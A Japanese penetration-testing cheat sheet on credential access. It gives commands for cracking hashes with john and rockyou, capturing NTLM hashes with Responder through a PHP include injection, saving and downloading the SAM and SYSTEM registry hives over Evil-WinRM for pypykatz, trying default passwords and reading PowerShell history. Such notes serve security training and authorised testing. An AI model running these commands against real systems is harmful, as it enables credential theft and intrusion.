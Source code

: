 # 資格情報アクセス

## アプリケーションに含まれる情報
・.jarの情報はJD-GUIで見れる
    ・Spring Bootを使用していればapplication.propertiesで見れる


## パスワードハッシュ解析
DB等から取得したパスワードハッシュを復元することで、パスワードを使いまわしている場合に別システムに侵入できる

Hash Identinierでハッシュ値の形式を特定できる

```
hash-identifier
```

johnでパスワード解析できる
```
john --format=raw-sha512 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
```
Kali Linuxであれば/user/share/wordlistsにrockyouの圧縮されたファイルがある。
formatで指定できる形式は以下を参照
https://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats

パスワード解析にはWebから使用できるCrackStationも便利
https://crackstation.net/

## NTLMハッシュの取得

### Responder
```
responder -I tun0
```
Responderを使用することで様々な通信を受けることができる
responderを起動した後、攻撃対象のWebアプリケーション等に対して外部のファイルを取得するように動かす
```
例：PHPでinclude(//<受けのIPアドレス>/somefile)を実行されるようCodeInjectionを行うなど
```
取得できたハッシュをjohnなどで解析する

### Windowsレジストリにアクセスできる場合
Windowsでレジストリにアクセスできる場合、以下の情報を集めると良い
* HKLM\SAM: ユーザーパスワードのNTLMv2 ハッシュを含む
* HKLM\security: キャッシュされたドメインレコード LSAシークレット/LSAキーを含む
* HKLM\system – 別名 SYSKEY: LSAシークレットやSAMデータベースを暗号化するために使用可能なキーを含む
hklm\systemとhklm\samからNTLMハッシュを取得できる

参考：
https://kb.offsec.nl/tools/framework/pypykatz/

(例) SeBackupPrivilege権限を持つ場合に、レジストリからNTLMハッシュを生成
何かしらのユーザ情報を使用してEvil-WinRMでシェルを取っており、ユーザがSeBackupPrivilege権限を持っている前提
```
*Evil-WinRM* PS C:\> reg save hklm\sam c:\Temp\sam
*Evil-WinRM* PS C:\> reg save hklm\system c:\Temp\system
```
でレジストリをコピー
```
*Evil-WinRM* PS C:\Temp> download sam
*Evil-WinRM* PS C:\Temp> download system
```
でファイルをダウンロードする。ダウンロードしたファイルを元にpypykatzを使用してNTLMハッシュを生成する
```
$ pypykatz registry --sam sam system
```
# 参考文献
https://kb.offsec.nl

## デフォルトパスワードの使用
サービスごとのデフォルトパスワードでログインできないか試行する。

https://cirt.net/passwords

## Powershellの履歴取得
以下の場所からPowerShellのコマンド実行履歴を取得できる

```
type C:\Users\<ユーザ>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt 
```